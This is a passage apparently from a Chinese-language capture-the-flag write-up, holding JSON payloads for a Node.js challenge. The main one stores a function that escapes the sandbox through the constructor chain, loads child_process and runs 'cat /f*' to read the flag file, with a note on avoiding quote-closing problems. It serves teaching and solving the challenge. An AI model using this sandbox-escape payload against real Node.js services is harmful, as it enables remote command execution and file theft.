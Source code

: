 ```php
    "12",
    "13",
    "14",
    "15",
    "16",
    "17",
    "18",
    "19",
    "20",
    "21",
    "22",
    "23",
    "24",
    "1",
    "2708886779",
    "stdin",
    "read"
  ]
}
```

当然，也可以像下面这样，赋值给变量1，再read将变量1覆盖匿名函数，这样就不用考虑单引号闭合问题了

```php
{
    "1": [
        "(function (...a){  return this.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat /f*').toString();})"
    ],
    "stdin": [
        "1",
        "2",
        "3",
        "4",
        "5",
        "6",
        "7",
        "8",
        "9",
        "10",
        "11",
        "12",
        "13",
        "14",
        "15",
        "16",
        "17",
        "18",
        "19",
        "20",
        "21",
        "22",
        "23",
        "24",
        "1",
        "1041341157",
        "1",
        "read"
    ]
}
```

